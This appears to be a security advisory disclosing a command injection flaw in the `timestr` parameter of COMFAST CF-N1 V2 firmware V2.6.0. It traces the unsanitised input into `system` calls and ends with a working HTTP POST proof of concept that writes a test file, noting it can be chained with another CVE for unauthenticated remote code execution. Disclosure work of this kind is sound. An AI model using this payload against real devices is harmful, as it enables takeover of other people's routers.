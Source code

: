 

# COMFAST CF-N1 V2 V2.6.0 Command Injection in `ntp_timezone`
PS:

1.Setting up the environment using tools like qemu may be difficult; it is recommended to purchase a physical device.

2.This vulnerability can be combined with CVE-2022-45724 to achieve unauthenticated RCE.

## Overview

A command injection vulnerability exists in the COMFAST CF-N1 V2 (firmware V2.6.0) within the `ntp_timezone` API (`/usr/bin/webmgnt`, function `sub_431C9C`). Attackers can inject arbitrary commands via the `timestr` parameter, enabling unauthorized execution of system commands, access to sensitive information, or full compromise of the device.



![PoC Result: Command Execution Proof](./imgs/0.png)

## Details



*   **Vendor**: COMFAST

*   **Vendor Website**: [http://www.comf](http://www.comfast.cn/)[ast](http://www.comfast.cn/)[.cn/](http://www.comfast.cn/)

*   **Product**: COMFAST CF-N1 V2

*   **Firmware**: V2.6.0

*   **Firmware Download**: [http://www.co](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[mfast](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[.com](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[.cn/in](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[dex.p](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[hp?m=](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[conte](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[nt\&c=](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[i](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[ndex](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[\&a=sh](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[ow\&ca](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[tid=3](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[1\&id=](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[772](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)

*   **Endpoint**: `/cgi-bin/mbox-config?method=SET&section=ntp_timezone`

*   **Vulnerability**: Command Injection

*   **CVE ID**: Pending

*   **Impact**: Execute arbitrary system commands, read sensitive files, or take full control of the device.

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description

The vulnerability originates in the `sub_431C9C` function handling the `ntp_timezone` configuration. Disassembly analysis shows that the user-controlled `timestr` parameter is unsanitized and directly incorporated into system commands via `sprintf_0` before execution by `system_0`.

Key code flow:



1.  User input (including `timestr`) is parsed via `blobmsg_parse_0` and extracted as a configuration parameter.

2.  The `timestr` parameter is inserted into command strings using `sprintf_0` (e.g., constructing cron job entries or time-related commands).

3.  The constructed commands are executed via `system_0` without sanitization, allowing injection of arbitrary commands through delimiters like `";`, `&&`, or `#`.

This direct concatenation of unvalidated input into executable commands enables attackers to break out of the intended command context and execute malicious code.



![Disassembly Snippet: Vulnerable Code Path](./imgs/1.png)



![Command Construction Flow](./imgs/2.png)

## Proof of Concept (PoC)

### PoC: Inject Command to Write Test File



```
POST /cgi-bin/mbox-config?method=SET&section=ntp_timezone HTTP/1.1
Host: cflogin.cn
Content-Length: 173
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Content-Type: appliation/json
Origin: http://cflogin.cn
Referer: http://cflogin.cn/guide/guide_router.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: COMFAST_SESSIONID=c0a800a0-ffffffc40f08ffffffaaffffff82fffffff0-6b8b4567
Connection: close

{ "timestr":"\"; echo time > /www-comfast/test.txt #",
"timezone":"0","zonename": "0","hostname": "0","ntp_client_enabled":"0","ntp_enable_server":"0","ntp_servername":"0"
}
```



*   **Notes**: The vulnerable parameter is `timestr`, exploited using `";` to terminate the original command context and `#` to comment out remaining syntax.

*   **Steps**:

1.  Send the POST request using tools like Burp Suite or `curl`.

2.  Access `http://cflogin.cn/test.txt` to verify command execution.

*   **Result**: The file `/www-comfast/test.txt` is created with the content "time", confirming successful injection.



![PoC Execution Result](./imgs/3.png)
